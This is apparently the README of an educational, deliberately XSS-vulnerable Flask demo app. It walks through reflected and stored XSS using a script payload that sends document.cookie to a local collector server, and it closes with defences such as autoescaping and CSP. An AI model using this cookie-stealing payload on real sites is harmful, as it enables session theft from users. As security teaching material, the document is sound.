 # xss-demo
Minimal, flask-powered python web app to demonstrate reflected and stored XSS attacks.
Less than 30 lines of Python + 40 lines HTML template.

![XSS Demo Screenshot](xss-demo-screenshot.png "XSS Demo Screenshot")

# Disclaimer

The current version is vulnerable to XSS.
This is meant for educational purposed only, please do not use it to attack websites.

# Quickstart

* Clone this repository.
* Create a [virtual environment](https://virtualenvwrapper.readthedocs.io/) (if you don't want to install `flask` in your global python environment) and 
  activate it.
* `pip install flask` to install flask in the virtual environment
* Run `flask run` in the vulnerable website folder
* Open [127.0.0.1:5000](http://127.0.0.1:5000/) in your webbrowser and have fun with XSS

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.


# Demostrations of XSS
## Things to note BEFORE trying the demostration
* Go to [127.0.0.1:5000/cookie](http://127.0.0.1:5000/cookie) to create set a cookie for the main website
* Run `python app.py` in the malicious website folder to run the malicious server to collect the cookies

## Demostration for reflected XSS
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the query blank
* Notice that the code is reflected inside the addressbar as a query.
* When the user clicks on the link containing the address, their cookies from the vulnerable website can be stolen

## Demostration for Stored XSS
### WARNING, this will spam ping the server as the page is loading
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the comment blank
* Notice that the code is stored within the website
* When the user access the website, their cookies will automatically stolen until the comment is removed

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.

## Demostration for DOM-Based XSS
* <b>Work in progress</b>

# Protection mechanisms

Of course you should never deactivate autoescaping in jinja/flask, so you should never have 
`{% autoescape false %}` in your production templates. 
<br>
This way you will always get the 
[standard HTML context filtering](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)
for variables in your templates.

The tooltip attack mentioned above can of course be avoided by using quotes correctly on 
[line 33 ](https://github.com/bgres/xss-demo/blob/master/templates/index.html#L33):
```html
      <div title="{{ comment }}">
```

You can also test using 
[Content Security Policy headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) to 
disallow unsafe inline javascript by replacing 
[`app.py` line 16-18](https://github.com/bgres/xss-demo/blob/master/app.py#L16-L18) with:

```python
    from flask import make_response
    r = make_response(render_template('index.html',
                      comments=comments,
                      search_query=search_query))
    r.headers.set('Content-Security-Policy', "script-src 'none'")
    return r
```


# Acknowledgements

This was forked from [bgres/xss-demo](https://github.com/bgres/xss-demo) 
<br>
The reflected server is made using a simple flask script